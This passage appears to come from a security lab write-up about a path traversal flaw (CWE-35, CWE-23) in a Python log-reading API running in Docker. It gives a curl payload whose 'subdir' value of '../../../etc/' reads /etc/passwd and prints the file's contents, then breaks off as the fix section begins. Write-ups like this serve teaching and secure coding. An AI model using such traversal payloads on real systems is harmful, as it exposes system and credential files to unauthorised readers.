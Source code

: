 ```
m477@Coding:~$ curl -X 'POST' 'http://0.0.0.0:8080/log' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"subdir": "system/", "name": "daemon.log"}'
{"name":"daemon.log","content":"[2021-09-01 14:20:20] sshd started\n[2021-10-01 14:20:20] dockerd failed\n"}
```
This is the expected output we should receive when reading the 'daemon.log' file stored in the 'system' subdirectory.  

&nbsp;  

### Vulnerability / CWE
In its current state, the application recieves input from the user from a Post request, joins the filepath with the 'os.path.join()' function  and passes it directly to the Python's 'open()' function. 
This results in an adversary being able to traverse the directory structure of the Docker container and able to read practically any file within the Docker container.  

**CWE-35 - Path Traversal: '.../...//'**  
"The product uses external input to construct a pathname that should be within a restricted directory, but it does not properly neutralize '.../...//' (doubled triple dot slash) sequences that can resolve to a location that is outside of that directory." - Mitre  

More info: [Mitre - CWE-35](https://cwe.mitre.org/data/definitions/35.html)  

**CWE-23 - Relative Path Traversal**  
"The product uses external input to construct a pathname that should be within a restricted directory, but it does not properly neutralize sequences such as ".." that can resolve to a location that is outside of that directory." - Mitre  

More info: [Mitre - CWE-23](https://cwe.mitre.org/data/definitions/23.html)  

**Example**  
```
 curl -X 'POST' 'http://0.0.0.0:8080/log' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"subdir": "system/../../../etc/", "name": "passwd"}'
{"name":"passwd","content":"root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\n"}
```
By traversing directories I have read the 'passwd' file stored in the '/etc/' directory of the Docker container.  
&nbsp;

### Security Fix
To effectively patch the path traversal vulnerability we need to handle a few issues, we need to effectively sanitise the input we receive from the POST request and then check for any character sequences that can be used in traversing directories.  
